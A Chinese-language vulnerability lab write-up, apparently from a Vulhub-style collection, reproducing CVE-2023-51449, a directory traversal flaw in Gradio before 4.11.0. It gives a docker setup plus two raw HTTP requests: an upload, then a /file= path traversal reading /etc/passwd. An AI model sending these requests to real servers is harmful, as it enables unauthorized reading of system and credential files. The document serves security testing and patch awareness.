 # Python Gradio 目录穿越漏洞 CVE-2023-51449

## 漏洞描述

Gradio 是一个 Python 库，允许用户无需编写前端代码即可为机器学习模型快速构建可视化 Web 界面。

在 Gradio 4.11 及更早版本中，如果未启用身份验证，知道文件路径的攻击者可以使用公共 URL 访问运行 Gradio 应用程序的服务器上的任意文件。

参考链接：

- [gradio-app/gradio#6833](https://github.com/gradio-app/gradio/pull/6833)
- https://github.com/gradio-app/gradio/security/advisories/GHSA-6qm2-wpxq-7qh2

## 漏洞影响

```
Gradio < 4.11.0
```

## 环境搭建

Vulhub 执行如下命令启动一个由 Gradio 4.10.0 编写的应用：

```
docker compose up -d
```

环境启动后，默认未开启身份验证。你可以通过 `http://your-ip:7860` 访问该应用。

## 漏洞复现

首先，使用 upload 接口上传任意文件，获取一个可访问的文件路径。

```
POST /upload HTTP/1.1
Host: your-ip:7860
Pragma: no-cache
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary6MhLjMxNrDeOYqzr
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
Content-Length: 44

------WebKitFormBoundary6MhLjMxNrDeOYqzr--
Content-Disposition: form-data; name="files";filename="test"
Content-Type: application/octet-stream

test
------WebKitFormBoundary6MhLjMxNrDeOYqzr--
```

![](images/Python%20Gradio%20目录穿越漏洞%20CVE-2023-51449/image-20250506110008190.png)

获得可访问的文件路径后，利用 file 接口配合目录穿越，即可读取服务器上的任意文件，例如 `/etc/passwd`：

```
GET /file=/tmp/gradio/a94a8fe5ccb19ba61c4c0873d391e987982fbbd3/../../../../../../etc/passwd HTTP/1.1
Host: your-ip:7860
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8
Cache-Control: no-cache
Accept: */*
Accept-Encoding: gzip, deflate
```

![](images/Python%20Gradio%20目录穿越漏洞%20CVE-2023-51449/image-20250506110238195.png)

## 漏洞修复

该漏洞在 `gradio==4.11.0` 中被修复。
